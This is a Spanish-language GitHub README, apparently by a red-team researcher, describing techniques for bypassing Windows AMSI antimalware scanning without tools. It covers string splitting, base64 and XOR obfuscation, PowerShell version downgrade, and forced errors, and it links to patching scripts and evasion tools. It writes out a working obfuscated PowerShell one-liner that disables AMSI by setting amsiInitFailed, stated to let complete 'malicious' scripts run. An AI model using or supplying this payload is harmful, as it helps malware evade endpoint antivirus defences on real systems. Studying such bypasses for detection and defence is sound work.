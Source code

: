 # AMSI BYPASS WITHOUT TOOLS 2023

En esta investigación se han probado numerosos payloads y técnicas sin exito, lo que se detalla a continuación funciona a 08/10/2023.
Destacar que todas estas soluciones se pueden realizar desde un usuario sin privilegios y sin la necesidad de herramientas, en caso de contar con privilegios o herramientas se podrían utilizar alguna más como modificar alguna clave de registro etc.

Con el lanzamiento de Windows 10, Microsoft introdujo AMSI, una interfaz de programación de aplicaciones (API) que permite la detección de malware en una amplia variedad de lenguajes de programación, incluyendo PowerShell. AMSI actúa como un puente que conecta las aplicaciones con el software antivirus.

Si desean profundizar más en la teoría visitien https://learn.microsoft.com/es-es/windows/win32/amsi/how-amsi-helps.


![image](https://github.com/ivancabrera02/AMSI/assets/103500562/a84a620b-b4bf-40c3-adf0-87922d478b87)

## Que detecta AMSI?

* Control de cuentas de usuario o UAC (elevación de privilegios de archivos EXE, COM y MSI, o instalación de ActiveX)
* PowerShell (evaluación de los scripts, el uso interactivo y el código dinámico)
* Windows Script Host (wscript.exe y cscript.exe)
* JavaScript y VBScript
* Macros de VBA de Office

## Técnicas de evasión para Red Team

### Separar Strings

Por hacer una breve introducción pondré el típico ejemplo que no puede faltar como es el separar strings.

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/afc8d173-246c-4fab-9741-5288420747d7)

### Base64

Podemos realizar lo mismo en base64. Ignorar el error de sintaxis :)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/3758ebe8-95dd-48fe-bf8f-b3c4ae1a9991)

### XOR

O utilizando XOR.

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/8a20cfca-0305-48cb-a8fe-c6e182c0909d)

Esto no está mal pero la idea es poder ejecutar scripts 'maliciosos' completos.

### Bajando versión

Una idea sería bajar la versión de powershell utilizando: powershell -version 2

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/68e79214-c511-4be0-ac7d-5cd657c546cc)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/020611a3-a014-4c93-b839-3d2c3cbb0726)

En la primera imagen se usa la versión 3 de powershell y como se puede apreciar se bloquea el script, en cambio en la segunda imagen usando una versión inferior se ejecuta sin problemas.

### Payload base64

Otra de las que mejor funciona es usando el siguiente payload en base64:

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/0be5c1d8-18e5-4603-ae85-edcb30f95d79)

### Error

Forzando errores a amsi

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/97575917-2f3f-451a-929c-780709a38585)

### Script para parchear AmsiOpenSession

Enlace al script: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiopensession

![image](https://github.com/ivancabrera02/AMSI/assets/103500562/ecab53cd-035c-47ef-b863-84b6f2bf147d)

## Herramientas y recursos extra

* https://amsi.fail/
* https://github.com/tokyoneon/Chimera
* https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
